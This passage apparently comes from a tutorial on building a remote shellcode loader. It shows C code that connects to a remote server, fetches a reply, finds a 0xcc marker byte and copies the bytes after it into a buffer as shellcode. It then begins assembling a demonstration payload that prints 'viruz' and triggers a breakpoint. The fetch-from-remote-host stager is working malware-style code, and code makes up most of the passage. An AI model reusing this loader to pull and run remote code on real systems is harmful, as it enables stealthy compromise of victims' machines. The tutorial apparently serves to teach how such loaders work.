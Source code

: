 ```c

    if (sockfd < 0) {
        return EXIT_FAILURE;
    }
    
    remote.sin_addr.s_addr = inet_addr(destip);
    remote.sin_family = AF_INET;
    remote.sin_port = htons(destport);

    if (connect(sockfd, (const struct sockaddr *) &remote, sizeof(remote)) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    } 
    
    if (sendto(sockfd, request, strlen(request), 0, NULL, 0) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

    if (recv(sockfd, reply_buf, 512, 0) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

    /**
     * "verify" if shellcode has been successfully received
     * by looking for the specific byte `0xcc`.
     * this byte is only used to mark the start of the shellcode and 
     * will be actually omitted from it.
     * if the byte is not present in the fetched data, abort.
    */ 
    payload_ptr = strchr(reply_buf, 0xcc);

    if (NULL == payload_ptr) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

    /* copy the shellcode to output buffer */
    memcpy(outbuf, payload_ptr + 1, bufsiz);

_FINAL:
    /* cleanup */
    shutdown(sockfd, SHUT_RDWR);
    close(sockfd);
    return ret_code;
}
```

Now it's time to craft the actual payload and setup a server for remotely accessing it.  
The payload's duty in this case is quite simple - output the string "viruz" to the console (`STDOUT`) and trigger a trap to debugger (breakpoint).  
The handy [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm) will help with constructing the payload and converting it into opcode bytes:
```asm
push    rdi         ; the RDI register still holds the value of nested function `bar()`
xor     eax, eax    ; clear eax ..
xor     edi, edi    ; .. and edi..
xor     edx, edx    ; .... and edx
                    ; eax = syscall number
                    ; edi = file descriptor number
                    ; rsi = (char *) buf - output string
                    ; edx = strlen(buf)
inc     eax         ; 1 == sys_write syscall
```